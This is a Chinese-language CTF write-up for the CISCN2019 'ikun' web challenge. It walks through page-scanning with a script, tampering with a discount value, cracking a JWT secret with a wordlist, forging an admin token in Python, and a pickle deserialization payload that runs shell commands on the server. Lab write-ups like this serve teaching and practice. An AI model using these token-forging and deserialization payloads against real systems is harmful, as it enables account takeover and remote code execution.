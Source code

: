 # [CISCN2019 华北赛区 Day1 Web2]ikun

## 知识点

`JWT`

`pickle`

## 解题

进入题目首页

![1Kun 1](./img/16-1.png?lastModify=1708305010)

要求冲到`lv6`

翻了几页没看见，用`python`脚本找一下

```python
import requests

for i in range(1, 200):
    url = f"http://84eb6b56-3cf8-4b61-91fd-02bd6f875a03.node5.buuoj.cn:81/shop?page={i}"
    resp = requests.get(url)
    print(i, flush=True)
    if 'lv6.png' in resp.text:
        print(f"find -> {i}")
        break
```

运行结果为`180`

![1Kun 2](./img/16-2.png?lastModify=1708305010)

发现了`lv6`的购买链接，`burpsuite`抓包看看

![1Kun 3](./img/16-3.png?lastModify=1708305010)

发现下面的`discount`即为折扣值

修改成功跳转后发现要求`admin`才能登录

发现`JWT`有签名，尝试破解一下

使用`jwt_tool`的字典破解

```bash
python3 .\jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNjYyJ9.J2bFVzLD9m-41Jq8Z4J-FAB-8Kx04DqrvTcxQM521O4 -C -d .\top19576.txt
```

![Alt text](./img/16-6.png?lastModify=1708305010)

得到`secret`为`1Kun`

或者使用`jwtcrack`获取`secret`

![Alt text](./img/16-8.png?lastModify=1708305010)

`Cyberchef`解密结果

![Alt text](./img/16-7.png?lastModify=1708305010)

使用`python`生成`jwt`

```python
# coding=utf-8
import hmac
import hashlib
import base64

key = '1Kun'

header = '{"alg": "HS256","typ": "JWT"}'
payload = '{"username": "admin"}'

encodeHBytes = base64.urlsafe_b64encode(header.encode("utf-8"))
encodeHeader = str(encodeHBytes, "utf-8").rstrip("=")

encodePBytes = base64.urlsafe_b64encode(payload.encode("utf-8"))
encodePayload = str(encodePBytes, "utf-8").rstrip("=")

token = (encodeHeader + "." + encodePayload)


sig = base64.urlsafe_b64encode(hmac.new(bytes(key, "UTF-8"), token.encode("utf-8"), hashlib.sha256).digest()).decode("UTF-8").rstrip("=")

print(token + "." + sig)
```

运行结果为`eyJhbGciOiAiSFMyNTYiLCJ0eXAiOiAiSldUIn0.eyJ1c2VybmFtZSI6ICJhZG1pbiJ9.iRc4KyWA0et3DmhK0nFu7aznKWxX6KuXJhisec_QUtY`

放入`Cookie`中可以发现用户名已经变为`admin`

![Alt text](./img/16-9.png?lastModify=1708305010)

再到`burpsuite`中进行购买`lv6`

购买的时候发现了隐藏信息

![Alt text](./img/16-11.png?lastModify=1708305010)

在下载的文件里发现了`pickle`反序列化，那么就可以利用`pickle`反序列化执行命令了

![Alt text](./img/16-12.png?lastModify=1708305010)

```python
import pickle
import urllib
import commands

class A(object):
    def __reduce__(self):
      # return (eval, ("__import__('os').system('ls')",))


        # return (commands.getoutput, ("ls /",))
        return (commands.getoutput, ("cat /flag.txt",))
 
a = A()
s = pickle.dumps(a)
print(urllib.quote(s))
```

`python2`运行后为

```
ccommands%0Agetoutput%0Ap0%0A%28S%27cat%20/flag.txt%27%0Ap1%0Atp2%0ARp3%0A.
```

![pickle](./img/16-13.png?lastModify=1708305010)

放到`burpsuite`的`become`参数即可

![pickle](./img/16-14.png?lastModify=1708305010)

